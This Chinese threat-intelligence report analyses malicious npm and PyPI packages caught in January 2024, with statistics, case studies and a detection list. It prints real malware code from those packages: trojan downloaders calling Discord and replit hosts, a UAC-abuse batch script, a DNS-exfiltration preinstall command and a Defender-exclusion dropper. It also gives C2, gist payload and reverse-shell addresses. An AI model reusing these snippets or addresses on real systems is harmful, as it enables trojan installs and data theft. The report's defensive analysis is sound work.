# 供应链投毒预警 | 开源供应链投毒 202401 最新月报来啦！ - 先知社区

**概述**

悬镜供应链安全情报中心通过持续监测全网主流开源软件仓库，结合程序动静态分析方法对潜在风险的开源组件包进行分析和监测，捕获大量开源组件恶意包投毒攻击事件。2024 年 1 月份，悬镜供应链安全情报中心在 Npm 官方仓库（[https://www.npmjs.com/）和](https://www.npmjs.com/%EF%BC%89%E5%92%8C) Pypi 官方仓库（[https://pypi.org/）上共捕获](https://pypi.org/%EF%BC%89%E4%B8%8A%E5%85%B1%E6%8D%95%E8%8E%B7) 675 个不同版本的恶意投毒包，其中 Npm 仓库投毒占比 90.48%，Pypi 仓库投毒占比 9.52%，从每日捕获的投毒包数据来看，Npm 仓库仍然是开源组件投毒的重灾区。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229153842-8fe00f7a-d6d5-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154058-e0f9a1f0-d6d5-1.png)

针对所有捕获的开源组件投毒包，我们结合源代码分析、动态行为监控等方法总结统计了投毒包的攻击方式和恶意行为。目前主流的投毒攻击方式包括：

-   恶意文件执行
-   代码混淆执行
-   恶意文件下载
-   shell 命令执行
-   恶意文件释放
-   恶意代码内存执行  
    其中，恶意文件执行是最常见的投毒攻击方式，占比高达 77%，其攻击流程主要利用开源组件管理器在安装组件包过程中通过投毒者自定义的恶意指令来自动加载执行内置在组件包中的恶意代码文件 (py、pyc、js、shell、pe、dll、elf、so 等)。恶意文件下载和恶意文件释放后执行也是投毒者惯用的攻击手法之一。此外，部分开源组件投毒者会使用代码混淆、恶意代码内存执行等技术实施无文件投毒攻击，以此来躲避杀毒软件、EDR 的安全防护检测。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240229154140-f9baa5ea-d6d5-1.png)

在所有投毒包的恶意行为中，窃取系统信息占比超过 83%，信息窃取的主要目标是开发者系统的密码文件、用户信息、网络配置、系统版本、DNS 服务器 IP、系统外网 IP、浏览器 cookie 等敏感数据。其次，远控木马和反向 shell 后门也是投毒包常见的攻击目的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154155-02f42668-d6d6-1.png)

**投毒案例分析**  
本节将从 2024 年 1 月份捕获的开源组件投毒包中精选一些具有代表性的恶意包进行分析，还原投毒者惯用的攻击手法及动机。同时，也希望开发者能够理解投毒者的攻击思路，提高开发流程中的安全防护意识。

恶意程序下载执行

该攻击方式主要发生在包管理器安装或者投毒包加载时，投毒包中的恶意代码执行时会从远程服务器下载攻击者托管的下一阶段恶意程序（木马、后门等）到受害者系统上执行。  
在 1 月份里，我们在 pypi 仓库中捕获多起 http 组件相关的投毒攻击事件，其中投毒包 httpxs 和 update-requests 主要针对开发者开展木马后门攻击。以 pypi 仓库的 httpxs 投毒包为例，该投毒包目标针对知名 python 开源组件 httpx，尝试通过包名错误拼写 (typo-squatting) 来迷惑混淆 python 开发者。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154224-140460a8-d6d6-1.png)

投毒包 httpxs 通过克隆 httpx v0.25.1 版本源码，并将 httpx 项目的 **init**.py 文件末尾植入恶意 python 代码；  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154250-23b3a3b0-d6d6-1.png)

当 python 项目错误加载恶意 httpxs 组件时，**init**.py 中的恶意 python 代码将得到执行。

```plain
import requests
import subprocess
import threading
import os

path = os.environ["USERPROFILE"] + "\AppData\Local\explorer.exe"

def process() -> None:
    if os.path.exists(path):
        subprocess.run(path, shell=True)

def download() -> None:
    response = requests.get("https://cdn.discordapp.com/attachments/1167794996854915172/1176286066026750074/run_for_money.exe?ex=656e50c4&is=655bdbc4&hm=cca58d210eaf8cee1ba47b9d92f9ce5814998a785e827885331ab77ab5c6d587&")

    if response.status_code != 200:
        exit()

    with open(path, 'wb') as file:
        file.write(response.content)

def execute() -> None:
    thread = threading.Thread(target=process)
    thread.start()

download(); execute()
```

恶意代码进一步从以下恶意网址下载新的恶意程序 (run\_for\_money.exe)，写入到受害者 windows 系统中 ("C:\\Users {username}\\AppData\\Local\\explorer.exe") 并最终执行该恶意程序。恶意程序 run\_for\_money.exe 在 virustotal 上被多款杀毒引擎判定为木马后门。

```plain
https://cdn.discordapp.com/attachments/1167794996854915172/1176286066026750074/run_for_money.exe?ex=656e50c4&is=655bdbc4&hm=cca58d210eaf8cee1ba47b9d92f9ce5814998a785e827885331ab77ab5c6d587
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154412-54638e4e-d6d6-1.png)

恶意程序释放执行

该攻击方式主要将恶意程序捆绑打包进投毒包中，或者直接将恶意程序代码编码 (通常采用简单的 base64、ascii 等编码) 转换为可显字符串后内嵌到投毒包代码文件中。当包管理器安装或投毒包加载时，投毒包中的恶意代码执行时会直接运行捆绑的恶意程序或者将内嵌编码后的恶意程序代码进一步解码释放后运行。  
以 npm 仓库的 edgecompatible 投毒包为例，该投毒包捆绑了多个伪装成 msedge 浏览器组件的木马后门程序，其目标针对使用 windows 系统的 npm 开发者。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154432-608963b0-d6d6-1.png)

当 npm 项目开发中一旦加载 edgecompatible 投毒包，edgecompatible 的 index.js 将执行 bin/autorun.bat 脚本。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154447-69a373aa-d6d6-1.png)

```plain
// index.js
const { spawn } = require('child_process');
const path = require('path');
const os = require("os");

module.exports = {
    compat: function() {
      if (os.platform() === "win32") {
        const binaryPath = path.join(__dirname, 'bin', 'autorun.bat');
        const child = spawn(binaryPath, []);
        child.stdout.on('data', (data) => {
          console.log(`stdout: ${data}`);
        });

        child.stderr.on('data', (data) => {
          if(data.toString().indexOf("start-process") != -1)
          {
            console.log( "\x1b[31m%s\x1b[0m", "Can't access Microsoft Edge rendering engine.");
            process.exit();
          }
        });

        child.on('close', (code) => {
        });
      } else if (os.platform() === "linux") {
        console.log(
          "\x1b[31m%s\x1b[0m",
          "This script is running on Linux. Please run on Windows Server OS."
        );
      } else {
        console.log(
          "\x1b[31m%s\x1b[0m",
          "This script is running on an unrecognized OS. Please run on Windows Server OS."
        );
      }
    }
  };
```

bin/autorun.bat 脚本首先通过执行“C:\\Windows\\System32\\cacls.exe C:\\Windows\\System32\\config\\system”来判断当前用户是否拥有管理员权限，如果没有管理员权限则会进一步尝试通过执行 powershell 命令”powershell start-process ".\\app\\cookie\_exporter.exe" -Verb RunAs”来运行 bin/app/Cookie\_export.exe，该程序是合法的 Microsoft Edge 浏览器官方程序，主要目的是用来触发来用户账户控制（UAC）提示，并尝试欺骗受害者运行使用管理员权限来执行 bin/app/Cookie\_export.exe。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154517-7b61e900-d6d6-1.png)

```plain
@echo off

pushd %~dp0

:: echo %~dp0
:: Check for administrator privileges
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

:: If the previous command returned with an error, ask for elevated permissions
if %errorlevel% neq 0 (
    :: echo Requesting administrative privileges...
    :: Prompt for UAC elevation
    powershell start-process ".\app\cookie_exporter.exe" -Verb RunAs
    exit /b
)

:: The rest of your script goes here with administrator privileges

popd
```

一旦受害者允许使用管理员权限运行 cookie\_export.exe，该程序将优先加载同目录下的恶意 DLL 文件 bin/app/msedge.dll 来执行下一阶段的攻击，通过 IDA 逆向可确认 cookie\_export.exe 运行时将动态加载 msedge.dll。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154549-8e5fc694-d6d6-1.png)

bin/app/msedge.dll 在 virustotal 上被多款杀毒引擎判定位木马程序。实际上，bin/app/msedge.dll 加载后会对 bin/app/msedge.dat 进一步解密释放出下一阶段的木马后门程序。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154602-96659d64-d6d6-1.png)

恶意代码内存执行

该攻击方式主要发生在包管理器安装或者投毒包加载时，投毒包中的恶意代码执行时会动态分配一块可读可写可执行 (RWX) 的动态内存，并将恶意 shellcode 代码直接拷贝到 RWX 内存中执行，无恶意文件落盘行为，在一定程度上可以绕过基于文件系统的安全检测。通常 shellcode 代码也会被攻击者存储在一些合法的代码托管平台上。

以 pypi 仓库的 httprequesthub 为例，该投毒包和我们在 2023 年 11 月份捕获到的 python http 代理 SDK 投毒事件属于同一个投毒团伙。httprequesthub 投毒包通过在安装包 setup.py 脚本中自定义 egg\_info 命令（PostEggInfoCommand 类）从远程服务器上拉取加密的恶意代码进行解密释放出第二阶段的 shellcode 攻击代码，shellcode 代码直接在可读可写可执行的系统内存中执行，没有恶意程序文件落盘行为，具备较高的攻击隐蔽性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154614-9d0c1b2a-d6d6-1.png)

当开发者通过 pip 包管理器下载或安装 httprequesthub 包时，PostEggInfoCommand 的 run 函数将被调用执行第一阶段攻击代码。Run 函数先将 base64 编码的 url 进行解码后通过 urllib 远程下载 base64 编码的恶意代码，最后会对恶意代码进行 base64 解码后调用 subprocess.Popen 启动新进程执行第二阶段的 python 攻击代码。

Base64 编码的恶意代码 url 为：

```plain
aHR0cHM6Ly9naXN0LmdpdGh1Yi5jb20vS2FyYXZheWV2QWxleGVpL2JkZjRmOWUyODA3MTRkODczMDNkNDkwOWQxOWRlM2E3L3Jhdy8zMTYzZTljOWZmNjE4YzUwYThkOGE5ZjYwMDUzYTM2ODM5ODVlMzUxL21hY2QuYjY0Cg==
```

解码后的恶意代码 url 为：

```plain
https://gist.github.com/KaravayevAlexei/bdf4f9e280714d87303d4909d19de3a7/raw/3163e9c9ff618c50a8d8a9f60053a3683985e351/macd.b64
```

解码后的第二阶段 python 攻击代码如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154646-b05eac9c-d6d6-1.png)

第二阶段 python 攻击代码调用 send 函数先将 base64 编码的 update\_information\_url 进行解码后通过 urllib 远程下载第三阶段加密的恶意代码，最后会对恶意代码进行解密并调用 eval 执行进入第三阶段攻击代码。update\_information\_url 解码后为：

```plain
https://gist.githubusercontent.com/tarasvlasov83/cf1ec403fac3f1cb8b23320c31042a67/raw/ff4be6e247d7698b401cfe31119d54167af875eb/aaaa.b64
```

第三阶段恶意代码解密还原后如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154709-bdf5316e-d6d6-1.png)

第三阶段恶意代码会进一步通过 base64 解密和 zlib 解压内嵌的恶意代码，最终还原出第四阶段 python 攻击代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154721-c52e16d0-d6d6-1.png)

第四阶段攻击代码被混淆处理，其大致逻辑是通过调用 python ctypes 库动态分配一段可读可写可执行的 RWX 系统内存，并将内置加密压缩后的 shellcode 代码解密释放到 RWX 内存上，最后直接控制 PC 寄存器跳转到 RWX 内存中执行第五阶段 shellcode 攻击代码。

去混淆后的第四阶段攻击代码如下所示（这部分攻击代码和我们 2023 年 11 月份发现的 HTTP 代理 SDK 投毒攻击代码完全一致）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154742-d1cf0c8c-d6d6-1.png)

通过 IDA 逆向第五阶段 shellcode 攻击代码 (shellcode\_stage1)，伪代码如下所示，shellcode 先调用系统接口分配一块可读可写可执行的 RWX 内存，接着将异或编码后的 shellcode 解码释放到 RWX 内存中执行下一阶段攻击。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154753-d84edc86-d6d6-1.png)

通过逆向分析可发现第五阶段攻击代码 shellcode\_stage1 执行后，需要连续经过 16 轮 shellcode 解码释放操作，最终才会释放出真实的攻击代码 shellcode\_stage17。

从 shellcode\_stage1 到 shellcode\_stage17 阶段的代码都是直接在系统内存上执行，不在文件系统中生成恶意代码。shellcode\_stage17 攻击代码最终负责和攻击者的 C2 服务器 3478.qt-api-worker-threads.workers.dev 进行通信。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154803-de3560ca-d6d6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154815-e51f92a2-d6d6-1.png)

反向 shell 后门

该攻击方式主要针对 Linux 系统开发环境，攻击者通常在投毒包中直接内置恶意 shell 命令或者通过脚本代码执行 shell 命令，以此方式将开发者系统 shell 反弹到攻击者控制的特定服务器端口上，开发者一旦通过包管理器安装或者加载投毒包时，反弹 shell 的恶意代码将自动执行，导致开发者系统被攻击者远程 shell 控制。

以 pypi 仓库 tensrflwo 投毒包为例，攻击者利用包名错误拼写 (typo-squatting) 的投毒方式来仿冒谷歌开源的深度学习框架 tensorflow 来攻击 AI 开发者。tensrflwo 安装包 setup.py 中定义的 taint2 () 函数通过创建子进程将受害者系统 shell 反连到投毒者控制的服务器上 (59.110.111.85:8088)，一旦开发者通过 pip 包管理器下载或者安装投毒包 tensrflwo 时，setup.py 中的恶意函数 tain2 () 将被调用执行，最终导致开发者系统被攻击者远程 shell 控制。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229154831-ef157c72-d6d6-1.png)

详细分析请参考：[供应链投毒预警 | 恶意 Py 包仿冒 tensorflow AI 框架实施后门投毒攻击](https://xz.aliyun.com/t/13338?time__1311=mqmxnDBG0QiQq405DI7qCuClY0K0Ioex&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F64530 "供应链投毒预警 | 恶意 Py 包仿冒 tensorflow AI 框架实施后门投毒攻击")

DNS 查询外传敏感信息

该攻击方式是一种较为隐蔽的信息窃取手法，通常在包管理器安装或者加载投毒包时自动执行用于收集受害者系统敏感数据的 shell 命令或脚本代码，收集到的敏感数据会被分块编码后，再通过发送 DNS 查询请求将编码后的敏感数据发送到攻击者控制的 DNS 服务器上。攻击者可从 DNS 服务器查询记录中将受害者系统的敏感数据提取并还原。

以 npm 仓库的投毒包 identity-auth 为例，identity-auth 利用 package.json 中 preinstall 指令在安装包过程中自动执行 index.js，index.js 先通过系统 shell 命令收集敏感信息（主机名、工作目录、用户名以及系统外网出口 IP），其次对收集到的数据进行 16 进制字符编码，并按照最大 60 字节长度进行字符分段切块；接着依次将切块数据和攻击者控制的域名（m4rwxmtkqz5wk2d1gfpk7fcqhhn8byzn.oastify.com）拼接后，最后通过 nslookup 命令查询拼接后的 DNS 地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155036-39a977fc-d6d7-1.png)

```plain
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'identity-auth';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $ut.m4rwxmtkqz5wk2d1gfpk7fcqhhn8byzn.oastify.com;done" , (error, data, getter) => {
  if(error){
    console.log("error",error.message);
    return;
  }
  if(getter){
    console.log(data);
    return;
  }
  console.log(data);

});
```

模拟投毒者生成包含系统敏感数据的 DNS 地址，攻击者通过分析 DNS 服务器查询日志即可将受害者系统敏感数据依次提取后进行解码还原。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155044-3e48b4f8-d6d7-1.png)

恶意代码混淆

为了躲避静态代码分析检测，攻击者会对投毒包中的恶意代码进行变形混淆。例如 npm 仓库的投毒包 noblox.js-proxy-server，该投毒包伪装成 github 项目 noblox/noblox.js（[https://github.com/noblox/noblox.js.git）进行投毒攻击，主要通过在](https://github.com/noblox/noblox.js.git%EF%BC%89%E8%BF%9B%E8%A1%8C%E6%8A%95%E6%AF%92%E6%94%BB%E5%87%BB%EF%BC%8C%E4%B8%BB%E8%A6%81%E9%80%9A%E8%BF%87%E5%9C%A8) package.json 中定义 postinstall 指令，postinstall 指令在安装投毒包时将自动触发执行包含混淆代码的 postinstall.js 恶意文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155058-46871dda-d6d7-1.png)

通过对混淆代码进行解混淆，可以还原出关键的恶意代码，如下图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155110-4df2b61a-d6d7-1.png)

恶意代码首先从以下恶意网址下载 bat 文件保存到 c:\\winapi\\WindowsApiLib.bat 并执行。

```plain
https://cdn.discordapp.com/attachments/1193294801299325020/1196958183533580478/1.bat
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155131-59f8b7c0-d6d7-1.png)

```plain
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
if not "%1"=="am_admin" (
  powershell -Command "Start-Process -Verb RunAs -FilePath '%0' -ArgumentList 'am_admin'"
  exit /b
)
set "scriptDir=%~dp0"
powershell -Command "Add-MpPreference -ExclusionPath 'C:\'"
TIMEOUT /T 5
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('https://1f2a857a-7153-42a6-8363-becc7ed94b49-00-1vtxb7rs21ezi.spock.replit.dev/download', 'C:\WindowsApi\WindowsApi.exe')"
start "" "C:\WindowsApi\WindowsApi.exe"
taskkill /IM cmd.exe
exit
```

WindowsApiLib.bat 会进一步从以下恶意网址下载木马后门程序保存到 C:\\WindowsApi\\WindowsApi.exe 并执行。

```plain
https://1f2a857a-7153-42a6-8363-becc7ed94b49-00-1vtxb7rs21ezi.spock.replit.dev/download
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229155252-8aa744b8-d6d7-1.png)

**排查方式**

截至目前，大部分恶意投毒包在国内主流镜像源中仍然可正常下载。针对文中分析的恶意投毒包，开发者可使用 OpenSCA-cli，将受影响的组件包按如下示例保存为 db.json 文件（可参考总结中提到的组件包信息按格式增减），直接执行扫描命令（opensca-cli -db db.json -path ${project\_path}），即可快速获知您的项目是否受到文中所披露的投毒包的影响。

```plain
[
  {
    "product": "httpxs",
    "version": "[0.0.1,0.0.1]",
    "language": "python",
    "id": "XMIRROR-MAL45-4856A664",
    "description": "Python 恶意投毒包 httpxs",
    "release_date": "2024-01-28"
  },
  {
    "product": "update-requests",
    "version": "[0.0.1,0.0.1]",
    "language": "python",
    "id": "XMIRROR-MAL45-CA5ED059",
    "description": "Python 恶意投毒包 update-requests",
    "release_date": "2024-01-28"
  },
  {
    "product": "edgecompatible",
    "version": "[2.3.4,2.3.4]",
    "language": "javascript",
    "id": "XMIRROR-MAL45-921FB751",
    "description": "NPM 恶意投毒包 edgecompatible",
    "release_date": "2024-01-31"
  },
  {
    "product": "httprequesthub",
    "version": "[2.31.4,2.31.4]||[2.31.0,2.31.0]||[2.31.1,2.31.1]||[2.31.3,2.31.3]",
    "language": "python",
    "id": "XMIRROR-MAL45-5915236F",
    "description": "Python 恶意投毒包 httprequesthub",
    "release_date": "2024-01-03"
  },
  {
    "product": "tensrflwo",
    "version": "[2.5.1,2.5.1]||[2.7,2.7]||[2.7.1,2.7.1]||[2.8,2.8]||[2.9,2.9]",
    "language": "python",
    "id": " XMIRROR-MAL45-777DD586",
    "description": " Python 恶意投毒包 tensrflwo",
    "release_date": "2024-01-15"
  },
  {
    "product": "identity-auth",
    "version": "[10.999.0,10.999.0]||[9.999.0,9.999.0]||[8.999.0,8.999.0]||[7.999.0,7.999.0]",
    "language": "javascript",
    "id": "XMIRROR-MALF5-F9282613",
    "description": "NPM 恶意投毒包 identity-auth",
    "release_date": "2024-01-30"
  },
  {
    "product": "noblox.js-proxy-server",
    "version": "[4.15.4,4.15.4]||[4.15.3,4.15.3]||[4.15.2,4.15.2]||[4.15.1,4.15.1]",
    "language": "javascript",
    "id": "XMIRROR-MAL45-52114A88",
    "description": "NPM 恶意投毒包 noblox.js-proxy-server",
    "release_date": "2024-01-18"
  }
]
```

**总结**

根据 2024 年 1 月份捕获的开源组件投毒统计数据以及分析报告来看，投毒攻击手法和动机呈现多样化趋势。NPM 是投毒者的重点目标，敏感数据窃取仍为主流攻击动机。此外，投毒者开始利用代码内存执行、代码混淆等安全对抗技术来躲避安全检测，这对于投毒包检测来说将面临更大的挑战。

悬镜供应链安全情报中心将持续监测全网主流开源软件仓库，对潜在风险的开源组件包进行动态跟踪和溯源，实现快速捕获开源组件投毒攻击事件并第一时间提供精准安全预警。
